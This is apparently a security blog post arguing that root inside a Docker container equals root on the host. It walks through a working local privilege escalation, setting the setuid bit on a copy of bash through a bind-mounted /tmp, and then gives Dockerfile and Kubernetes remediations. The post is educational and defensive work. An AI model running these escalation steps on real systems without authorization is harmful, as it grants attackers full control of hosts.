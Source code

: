 ```yaml
---
title: "The False Sense of Security: Running Containers as root"
author: wonderchild
date: 2023-03-26 14:30:00 +0500
categories: [Containers]
tags: [Containers, Security]
---
```


---

Containers have revolutionized modern software development, enabling us to develop, build, package, and deploy software applications faster and more efficiently than ever before. The benefits of containerization are many, from easier deployment and scaling to improved resource utilization and portability. However, despite the advantages that containers offer, they are not immune to security risks. In this post, let's discuss how root inside the container and on the host essentially mean one and the same thing.

## Insecure By Default

In her book [Container Security](https://www.oreilly.com/library/view/container-security/9781492056690/), Liz Rice described containers running as root as "the most insecure-by-default behavior in the container world", and despite this behavior being insecure, at the time of this writing, most if not all containers still run as root by default.

For instance, if we spin up an Ubuntu container using Docker and check the user ID, we can see that it's running as root:

```
$ docker run -it ubuntu /bin/bash
root@3de6e3805519:/# id
uid=0(root) gid=0(root) groups=0(root)
```

One might mistakenly assume like I myself had once believed, that root inside a container is completely isolated from the root on the host. However, that is not the case. 

To confirm that root in the Ubuntu container is the same as the root on the host, let's run the `sleep` command inside the container:

```
root@3de6e3805519:/# sleep infinity
```

Now, let's open another terminal on the same host, and use the `ps` command to see that this process is running under root's user ID:

```
$ ps -fC sleep
UID          PID    PPID  C STIME TTY          TIME CMD
root        4434    4152  0 19:38 pts/0    00:00:00 sleep infinity
```

From the perspective of the host, the `sleep` process is owned by the root user, as seen above. This indicates that root inside the container is essentially the same as root on the host.

This leads us to the question: how can attackers take advantage of this? So let's now explore how this practice could be abused by an attacker.

## Leveraging Containers for Privilege Escalation

Assuming we already have initial access to the machine as a normal non-root user on the host, let's demonstrate how an attacker can use containers to escalate their privileges.

To begin, we'll run an Ubuntu container and bind-mount the host's `/tmp` volume inside the container using the following command:

```
$ docker run -v /tmp:/tmp -it ubuntu /bin/bash
root@2ea086531742:/#
```

With the container up and running, let's open another terminal on the host as non-root user and copy the user's `/bin/bash` file to the `/tmp` directory using the following command:

```
$ cp /bin/bash /tmp
```

Next, in the Ubuntu container, let's see who owns the `/tmp/bash` file:

```
root@2ea086531742:/# ls -l /tmp/bash 
-rwxr-xr-x 1 1000 1001 1234376 Mar 25 17:21 /tmp/bash
```

As we can see, the file is currently owned by the non-root user with UID `1000`.

Now, we'll use the `chown` command to change the ownership of the file to the root user:

```
root@2ea086531742:/# chown root:root /tmp/bash
root@2ea086531742:/# ls -l /tmp/bash
-rwxr-xr-x 1 root root 1234376 Mar 25 17:21 /tmp/bash
```

The file is now owned by root, so we'll set the `setuid` bit on the file using the `chmod` command:

```
root@2ea086531742:/# chmod +s /tmp/bash
root@2ea086531742:/# ls -l /tmp/bash
-rwsr-sr-x 1 root root 1234376 Mar 25 17:21 /tmp/bash
```

Now that the `setuid` bit is set, we can go back to the terminal of the non-root user and execute the `/tmp/bash` file with the `-p` option to launch bash in privileged mode and maintain the privileges owned by the file's owner:

```
$ /tmp/bash -p
bash-5.1# whoami
root
```

So now, even though we ran the `/tmp/bash` file as a regular non-root user, we have become root on the host.

If you want to see this in action, I suggest giving HackTheBox's now-retired [GoodGames](https://app.hackthebox.com/machines/GoodGames) machine a try. A good friend of mine, Abdullah Rizwan has a nice [writeup](https://arz101.medium.com/hackthebox-goodgames-20358b06420c) on the machine.

Furthermore, there are numerous other techniques that attackers can use to escape their privileges, such as [this](https://www.electricmonk.nl/log/2017/09/30/root-your-docker-host-in-10-seconds-for-fun-and-profit/) in the blog post from Ferry Boender, or the [one](https://medium.com/@mccode/processes-in-containers-should-not-run-as-root-2feae3f0df3b) by Marc Campbell.

## Remediation

If you're using Docker as your container runtime, the fix is as simple as adding the following two lines to your Dockerfile:

```
RUN groupadd --gid 65532 nonroot \
    && useradd --uid 65532 --gid 65532 -m nonroot
USER nonroot
```

Alternatively, if you're working with Kubernetes, you can leverage the `securityContext` setting or `PodSecurityPolicy`. However, since the latter is deprecated, here's an example of how you can use the former to prevent privilege escalation:

```yaml
securityContext:
  allowPrivilegeEscalation: false
  capabilities:
    drop:
      - ALL
  runAsNonRoot: true
```

## Conclusion

To sum up, we've learned how the ephemeral nature of containers can give us a false sense of security, and that root inside a container is equivalent to root on the host. This means that a successful container escape can lead to a complete compromise of the host. To prevent this, it's crucial to follow the principle of least privilege and adopt security best practices. Without these measures, we'd just be a single misconfiguration away from allowing an attacker to gain full control.